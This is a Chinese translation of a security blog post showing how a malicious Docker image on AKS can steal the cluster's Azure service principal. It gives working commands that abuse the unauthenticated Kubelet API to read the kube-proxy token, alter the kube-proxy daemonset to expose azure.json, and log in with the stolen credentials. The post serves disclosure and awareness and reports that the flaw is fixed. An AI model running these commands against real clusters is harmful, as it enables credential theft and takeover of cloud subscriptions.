


# AKS 上一个淘气的 docker 图片是如何让攻击者访问你的 Azure 订阅的？

> 原文：<https://itnext.io/how-a-naughty-docker-image-on-aks-could-give-an-attacker-access-to-your-azure-subscription-6d05b92bf811?source=collection_archive---------7----------------------->

## **TL；DR** :在 AKS 集群中调度的恶意 docker 映像可以自动提取集群服务主体详细信息，允许攻击者提升其权限并针对受害者的 Azure 订阅运行命令。


由[马克·里切思](https://unsplash.com/photos/92_FGwSRQlA?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)在 [Unsplash](https://unsplash.com/search/photos/danger?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) 上拍摄的照片

> 免责声明:以下内容仅供参考。该漏洞只是为了强调需要保护您的 AKS 集群，不要使用不可信的 docker 映像。因此，使用此处包含的信息完全由您自己承担风险。

我将演示我创建的一个漏洞，它允许一个简单的容器从 AKS 集群中找到 Azure 服务主体细节，并将其发送到一个远程 URL。

这里使用的大部分东西都是基于我不久前写的[接管 AKS 集群的帖子](https://medium.com/@pjbgf/taking-over-a-kubernetes-cluster-challenge-1-46b527d0f086)。实现这一点的一个基础是 Kubelet API 技巧[，它允许您在一个节点内查看任何正在运行的 pod，即使您的 pod 作为非根用户/最低特权用户运行，它也会给您额外的权限。](/aks-kubernetes-security-walk-through-challenge-2-dbe3ed16beec)

为了更好地理解我们将如何访问 Azure 订阅，您需要知道 AKS 基于 [ACS 引擎](https://github.com/Azure/acs-engine)，这是一个开源项目，可以简化 Azure 上的集群供应。它在内部使用一个文件来存储服务主体名称(SPN ),这样它就可以与 Azure API 进行交互。该文件存在于每个群集节点中，位于以下路径:

```
/etc/kubernetes/azure.json
```

有几种不同的方法可以获取该文件的内容，但本质上，我们需要将主机(节点)卷挂载到一个特权容器上。

我发现的最偷偷摸摸的方法是操作 kube-proxy daemonset，它已经作为特权运行并挂载到/etc/kubernetes/certs。由于人们往往不太注意 kube-system 名称空间中发生的事情，我们将进行的更改很容易被忽略。

## 获取 API 服务器令牌

根据映像的调度方式，您可能会也可能不会在 pod 中装载 API 服务器令牌。为了使其更加通用，我们将从 kube-proxy 容器中获取令牌:

```
curl --connect-timeout 5 -sk https://10.240.0.4:10250/run/kube-system/$(curl -sk https://10.240.0.4:10250/runningpods/ | jq '.items[].metadata.name' | grep kube-proxy | sed 's/"//g')/kube-proxy/ -d "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token" -o token.txt
```

请注意，我们正在利用对 IP 10.240.0.4 上 Kubelet API 的未授权访问。这通常是 AKS 集群中的第一个节点。然而，更聪明的利用方式可以动态地发现这一点。

## 篡改 kube-proxy

kube-proxy 需要访问路径/etc/kubernetes/certs。我们将修改它，所以我们实际上挂载它的父文件夹。这个简单的改变将保持系统正常工作，因为 certs 映射仍然可用，但是，它也将为我们提供对 azure.json 文件的访问。这是我们将获得的全部内容:



理论上，这可以通过导出其 yaml 文件，用/kubernetes 替换 kubernetes/certs，然后应用更改来实现:

```
kubectl get ds/kube-proxy --namespace kube-system -o yaml --export | sed -E 's/kubernetes\/certs/kubernetes/g' | kubectl apply --namespace kube-system -f -
```

默认情况下，daemonsets 上的更改仅在删除时推出。因此，在实际利用中，我们分三步进行:1 .导出，2。删除现有 kube-proxy，3。应用更改。

这是完整的漏洞。sh:

当执行时，它将打印 Azure SPN 并将其发布到外部 URL。



## 访问 Azure 订阅

有了这些信息，任何人都可以通过 [Azure CLI](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli?view=azure-cli-latest) 登录你的 Azure 订阅。

```
az login --service-principal -u SPN_USER_NAME -p PASSWORD --tenant TENANT_ID_OR_NAME
```

查询其权限:

```
az role assignment list --assignee SPN_USER_NAME
```

默认情况下，SPN 是群集资源组成员。但是，如果提供集群的人做得不好，这个 SPN 可能是订阅所有者、贡献者等。

无论哪种方式，从这一点来看，攻击者都有足够的权限来中断您的服务，或者在群集资源组中旋转新的资源来做他们想做的任何事情——我刚才听到的是加密挖掘吗？

我在 2018 年 2 月与微软安全团队分享了一个类似的漏洞，他们正在努力修复它。同时，确保你只在集群中使用**信任的** docker 镜像。

**2018 年 8 月 7 日更新:这真是个好消息，微软已经修复了这个问题。下面的命令现在将导致 HTTP 401 未授权:**

```
curl -sk [https://{NODE_IP}:10250/runningpods/](https://10.240.0.4:10250/runningpods/)
curl --connect-timeout 5 -sk [https://{NODE_IP}:10250/run/kube-system/{POD_NAME}/kube-proxy/](https://10.240.0.4:10250/run/kube-system/kube-proxy-9cph5/kube-proxy/)
```